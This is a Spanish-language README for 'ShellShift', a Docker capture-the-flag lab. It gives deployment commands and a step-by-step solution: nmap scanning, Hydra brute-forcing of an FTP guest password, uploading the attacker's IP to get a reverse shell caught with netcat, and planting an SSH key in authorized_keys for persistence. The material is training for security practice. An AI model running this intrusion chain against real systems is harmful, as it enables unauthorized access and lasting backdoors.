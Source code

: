 
# ShellShift

- [1. Instalación y despliegue](#1.-instalación-y-despliegue)
- [1.1. Despliegue de contenedor automático](#1.1.-despliegue-de-contenedor-automático)
- [1.2. Despliegue de contenedor manual](#1.2.-despliegue-de-contenedor-manual)
- [2. Descripción de ejercicio](#2.-descripción-de-ejercicio)
- [3. Solución de ejercicio](#3.-solución-de-ejercicio)
- [3.1. Identificación de servicio FTP](#3.1.-identificación-de-servicio-ftp)
- [3.2. Crackeo de credenciales FTP](#3.2.-crackeo-de-credenciales-ftp)
- [3.3. Suplantación de identidad](#3.3.-suplantación-de-identidad)
- [3.4. Reverse Shell](#3.4.-reverse-shell)
- [3.5. Conexiones perdurables](#3.5.-conexiones-perdurables)
- [3.6. Recuperación de credenciales](#3.6.-recuperación-de-credenciales)

## 1. Instalación y despliegue

Para desplegar el laboratorio es necesario tener [Docker](http://docs.docker.com/get-docker/) instalado. Una vez instalado podremos descargar o construir la imagen.

### 1.1. Despliegue de contenedor automático

Para desplegar el contenedor automáticamente, bastará con ejecutar el siguiente comando:

```bash
docker run -d --name shellshift-container -p [Host-Port1]:21 -p [Host-Port2]:22 -p [Host-Port-range]:40000-40010 kradbyte/shellshift:latest
```

Asegúrate de reemplazar `Host-Port1`, `Host-Port2` y `Host-Port-range` con tus puertos para los servicios FTP, SSH y FTP Passive, respectivamente, en caso de querer utilizar puertos personalizados.

### 1.2. Despliegue de contenedor manual

Para desplegar el contenedor manualmente primero deberemos clonar el repositorio y construir la imagen:

```bash
git clone https://github.com/kradbyte/elementals-labs.git
docker build -t kradbyte/shellshift:latest elementals-labs/3-ShellShift
```

Una vez tengamos la imagen construida podremos desplegar el contenedor:

```bash
docker run -d --name shellshift-container -p [Host-port1]:21 -p [Host-port2]:22 -p[Host-port-range]:400000-40010 kradbyte/shellshift:latest
```

Asegúrate de reemplazar `Host-Port1`, `Host-Port2` y `Host-Port-range` con tus puertos para los servicios FTP, SSH y FTP Passive, respectivamente, en caso de querer utilizar puertos personalizados.

## 2. Descripción de ejercicio

*Contexto:* Te encuentras en una encrucijada en tu puesto de trabajo en el departamento de Atención al Cliente de una empresa reconocida. Hace una semana, desafortunadamente perdiste un archivo crucial que contenía tanto una llave de acceso como el enlace a una reunión empresarial importante programada para la próxima semana. La política interna de la empresa es implacable con los errores, y temes que admitir tu descuido pueda costarte el puesto. Afortunadamente, has descubierto que las credenciales perdidas están almacenadas en el servidor de la empresa. No tienes contactos en el departamento de TI, pero el destino te ha sonreído al encontrar un correo electrónico desechado que podría ser tu salvación:

> Good morning, Pato. I will be glad to assist you with your request. Please, provide your IP address by uploading it to the "ips" folder, naming the file "PatoIP.txt". Remember to connect as a "guest" user. Best regards.

*Target:* Recupera el archivo perdido siguiendo las pistas proporcionadas. Este viaje te llevará a interactuar con un servicio FTP, donde deberás compartir tu IP y puerto para obtener acceso a la consola del servidor. 

*Steps:*
1. Identificar servicio FTP
2. Acceder al servicio FTP
3. Compartir IP y puerto de escucha
4. Esperar conexión al servidor
4. Buscar archivo perdido: El archivo que necesitas recuperar tiene una extensión “.sh” y un tamaño de 15 KB.

*Grants:*
1. IP de Windows vs. WSL: Ten en cuenta que las direcciones IP pueden variar entre Windows y WSL. Asegúrate de proporcionar la IP correcta para evitar complicaciones.
2. Para facilitar tu trabajo y evitar tener que repetir pasos, considera establecer algún método para ganar un acceso más estable.
3. Todos los servicios corren entre los puertos 2100-2300.

*Tools:*
FTP, Curl, NetCat, Hydra, Nmap, SSH

## 3. Solución de ejercicio

### 3.1. Identificación de servicio FTP

Si se configuraron los puertos para que el servicio FTP corriera por un puerto distinto al 21, se debe utilizar alguna herramienta de escaneo, como Nmap, para descubrir dicho servicio.

```bash
nmap -sn 192.168.0.0/24
```

### 3.2. Crackeo de credenciales FTP

Una vez hayamos ubicado el servicio FTP, el correo que se menciona en la descripción del ejercicio nos menciona que podemos subir un archivo al sevidor, pero primero deberemos descubrir la contraseña. Para eso podemos utilizar herramientas como *[Hydra](https://www.kali.org/tools/hydra/)* que nos ayudarán a descubrir las credenciales. Si prestamos atención al correo sabremos que el usuario del servicio es **guest**, por lo que solo deberemos descubrir la contraseña. Podemos utilizar algún diccionario de [SecList](https://github.com/danielmiessler/SecLists/blob/master/Passwords/500-worst-passwords.txt).

```bash
hydra -l guest -P /ruta/a/tu/diccionario.txt ftp://ServerIP:ServerPort
```

No olvides reemplazar `ServerIP` y `ServerPort` con la IP y el puerto del servidor por donde corre el servicio de FTP, así como la ruta de tu diccionario.

### 3.3. Suplantación de identidad

Una vez hayamos obtenido las credenciales del servicio FTP deberemos enviar nuestra IP y nuestro puerto de escucha, para que el servidor nos envíe una consola interactiva como si fuésemos Pato. Podemos utilizar FTP o curl para enviar el archivo:

```bash
curl -T <(echo "ClientIP:ClientPort") ftp://UserServer:PassServer@ServerIP:ServerPort/ips/PatoIP.txt
```

No olvides reemplazar `ClientIP` y `ClientPort` por la IP y el puerto de tu Host, así como `UserServer` y `PassServer` por el usuario y la contraseña que hayamos encontrado en anteriormente. Finalmente deberemos reeplazar `ServerIP` y `ServerPort` por la IP y el puerto del servidor por la que corre el servicio FTP.

### 3.4. Reverse Shell

Cuando hayamos enviado nuestra IP al servidor deberemos ponernos en escucha para recibir la consola interactiva. Para ello podemos utilizar alguna herramienta como NetCat.

```bash
nc -lnvp 4444
```

### 3.5. Conexiones perdurables

Cuando el servidor nos entregue la consola interactiva podremos buscar la flag del laboratorio, pero la conexión que tenemos actualmente no será perdurable ya que cada dos minutos perderemos la conexión y deberemos repetir el proceso de enviar nuestra IP al servidor para conectarnos nuevamente, por lo que deberemos buscar una conexión persistente para evitar este inconveniente. Para ello utilizaremos SSH.

```bash
ssh-keygen -t rsa -b 4096 -f myKey -N ""
```

No olvides reemplazar `myKey` por el nombre que quieras utilizar para tu llave o el directorio donde se guardará.
Una vez hayamos creado nuestras llaves pública y privada, deberemos copiar la llave pública, con extención `.pub`, al archivo de llaves autorizadas `authorized_keys` del directorio `.ssh`, dentro del directorio de nuestro usuario en el servidor. Una vez copiada esta llave podremos conectarnos con nuestra llave privada que generamos anteriormente. No olvides cambiar el permiso de tu llave privada por el permiso 600.

```bash
ssh -p [ServerPort] -i [YourKey] [UserName]@ServerIP
```

No olvides reemplazar `ServerPort` y `ServerIP` por la IP del servidor y el puerto por el configuraste que corriera SSH, así como reemplazar `YourKey` por el nombre que tenga tu llave privada dentro de tu host y `UserName` por el nombre de usuario al que te conectarás (para este caso era _guest_).

### 3.6. Recuperación de credenciales

Una vez hayamos establecido la conexión por SSH bastará con buscar y obtener las credenciales.

```bash
./tmp/meet.sh.x
```

> **Nota:** Las credenciales están en un archivo ejecutable
